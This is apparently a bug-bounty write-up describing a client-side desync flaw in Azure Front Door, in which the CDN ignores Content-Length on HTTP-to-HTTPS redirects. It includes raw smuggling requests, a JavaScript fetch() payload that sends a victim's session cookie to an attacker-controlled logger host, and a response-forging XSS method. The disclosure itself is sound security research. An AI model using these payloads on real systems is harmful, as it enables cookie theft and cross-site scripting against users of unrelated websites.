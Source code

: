 ```yaml
---
title: "Knocking on the Front Door (client side desync attack on Azure CDN)"
date: 2023-07-31T23:26:05+02:00
author: "Jeti"
authorTwitter: "0xJeti"
imageTwitter: "/frontdoor-cover.png"
---
```


A few months ago, I embarked on a security bug hunt within the scope of a private program available through the Intigriti platform. During this endeavor, I encountered an intriguing anomaly while analyzing the redirect from HTTP to HTTPS traffic on a particular host.

In this write-up, I will delve into the short journey that started after uncovering this strange behavior, ultimately leading to the discovery of a Client-Side Desync vulnerability within one of Microsoft Azure's CDN solutions known as Front Door.

## Discovery
It all started when I've sent following request to http://redacted.com:
```http
POST / HTTP/1.1
Host: redacted.com
[...]
Content-Length: 34

GET / HTTP/1.1
Host: redacted.com


```

Why such a strange request? I was just playing around in Burp after reading fantastic research on [Browser Powered desync attacks](https://portswigger.net/research/browser-powered-desync-attacks) by James [@Albinowax](https://twitter.com/albinowax)' Kettle.

And server responded with:
```http
HTTP/1.1 307 Temporary Redirect
Content-Type: text/html
Content-Length: 0
Connection: keep-alive
Location: https://redacted.com/
x-azure-ref: 20230522T201945Z-...
X-Cache: CONFIG_NOCACHE

HTTP/1.1 307 Temporary Redirect
Content-Type: text/html
Content-Length: 0
Connection: keep-alive
Location: https://redacted.com/
x-azure-ref: 20230522T201945Z-...
X-Cache: CONFIG_NOCACHE

```

At first glance, it looks like there is nothing unusual. The server received two requests in the same (keep-alive) connection and responded twice with a 307 redirect from `http://` to `https://` address.

But... Wait... In reality, I just sent one POST request with a body! The size of the body was defined by the `Content-Length` header.

However, I received two responses. This indicates that the server happily ignored the `Content-Length` header and interpreted my request as two separate requests.

This looks like a perfect candidate for Client-Side Desync attack described in above-mentioned reasearch. 

Quoting @Albinowax:
>Classic desync or request smuggling attacks rely on intentionally malformed requests that ordinary browsers simply won't send. This limits these attacks to websites that use a front-end/back-end architecture. However, as we've learned from looking at CL.0 attacks, it's possible to cause a desync using fully browser-compatible HTTP/1.1 requests. Not only does this open up new possibilities for server-side request smuggling, it enables a whole new class of threat - client-side desync attacks.

>A client-side desync (CSD) is an attack that makes the victim's web browser desynchronize its own connection to the vulnerable website. This can be contrasted with regular request smuggling attacks, which desynchronize the connection between a front-end and back-end server.

Upon conducting a more in-depth analysis, I discovered that this issue is not specific to the customer's solution but rather a general bug in the service utilized by the customer called [Azure Front Door](https://azure.microsoft.com/en-us/products/frontdoor/).

## Front Door

Azure Front Door service is a global, scalable content delivery network (CDN) and intelligent application delivery platform that provides secure and high-performance routing of web traffic to backend services.

Let's dive into some of the configurable options.

One of it's features (enabled by default) is to redirect all HTTP traffic to HTTPS.
![Frontdoor redirects HTTP to HTTPS](/frontdoor-http-to-https.png)

Technically this is done by redirecting browser to `https://` address via 307 status code:
![Front Door redirects with 307](/frontdoor-redirect-307.png)

Server supports keep-alive connections:
![Front Door supports keep-alive connections](/frontdoor-keep-alive-connections.png)

And redirects also POST requests:
![Front Door redirects POST requests](/frontdoor-redirect-post-requests.png)

But the problem is that it completely ignores `Content-Length` header:
![Front Door ignores Content-Length](/frontdoor-ignores-content-length.png)
What looks like two requests is in fact one request sent by the web browser where yellow box contains data for POST request (`Content-Length` header points to the end of the data).

But Front Door server ignores `Content-Length` header and treats it as two separate requests.

Another interesting design feature of Front Door (not a bug of course) is that all customer servers powered by Front Door service are available under one IP address and are also available in one keep-alive connection (this is a CDN service, right?). So this is perfectly valid set of requests sent in one TCP connection:

![Front Door is sharing connections](/frontdoor-sharing-connections.png)

> **NOTE 1:** *azure-victim.jeti.pw* and *azure-attacker.jeti.pw* are two separate web servers of two separate customers (I've used custom domains for better visibility).

> **NOTE 2:** *azure-attacker.jeti.pw* server doesn't have automatic HTTPS redirects turned on that is why it doesn't respond with redirect (this might be important for various exploitation techniques).

## Exploit

A CSD attack starts with the victim visiting the attacker's website, which then makes their browser send two cross-domain requests to the vulnerable website. The first request is crafted to desync the browser's connection and make the second request trigger a harmful request / response.

There are multiple ways how attacker can exploit this desynchronization issue. I'll focus on two possible ways.

### Stealing requests
Let's imagine that, upon visit from a victim, attacker's website sends a request (e.g. using Java Script `fetch API`):
```javascript
fetch('http://azure-victim.jeti.pw/x', {
method: 'POST',
  body: "POST /logger HTTP/1.1\r\nHost: azure-attacker.jeti.pw\r\nContent-Length: 200\r\n\r\n",
  mode: 'no-cors',
  redirect: 'follow',
  credentials: 'include'
})
```

![Incomplete request with fetch()](/frontdoor-fetch-incomplete-request.png)

Front Door service treats it as two separate requests where the second one is a POST request with some body attached (200 bytes long).

> **NOTE:** please remeber that *azure-attacker.jeti.pw* is configured to not to redirect automatically so the server checks `Content-Length` in this case.

As a request body is missing server will wait for 200 bytes of data to finish the request. 
All attacker needs to do is to redirect victim user to the victim's website:

```javascript
location = 'http://azure-victim.jeti.pw/'
```

Victim's browser will send another GET request (most of the time browser will re-use the  same connection). Both requests will look like this:
![Frontdoor complete request](/frontdoor-completed-request.png)
Server received it's 200 bytes of data and sent POST request to http://azure-attacker.jeti.pw/logger with following **data**:
```http
GET / HTTP/1.1
Host: azure-victim.jeti.pw
Accept-Encoding: gzip, deflate
Accept: */*
Cookie: PHPSESSID=uhogavedhcduei7qlfh1eplf7c
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.138 Safari/537.36
Connection: keep-alive
Cache-Control: max-age=0

```

And effectively attacker had stolen the session cookie of the victim.

### "Universal" XSS by forging responses

Another way of expoiting a CSD vulnerability is to forge responses to the victim's requests.

Let's have a look at following request sent by the browser when victim visits malicious website (sent via `fetch API`):
![Poisoning response with XSS](/frontdoor-xss-request.png)

Front Door service again treats it as two separate requests and sends both to respective customer websites. And receives 2 separate responses.

But the victim's browser sent only one request so it expects only one response (307 redirect in our case). Second part stays in the connection pool waiting for another request to match (because of the HTTP pipelining).

When attacker redirects a victim, browser makes another request. 

But luckily for an attacker, the browser already have a response waiting in a connection pool (in our example response contains XSS payload that will be triggered in the context of website where victim was redirected).

As the attacker can redirect a victim to any Front Door powered website and forge the response I think this can be called a "Universal" XSS :)

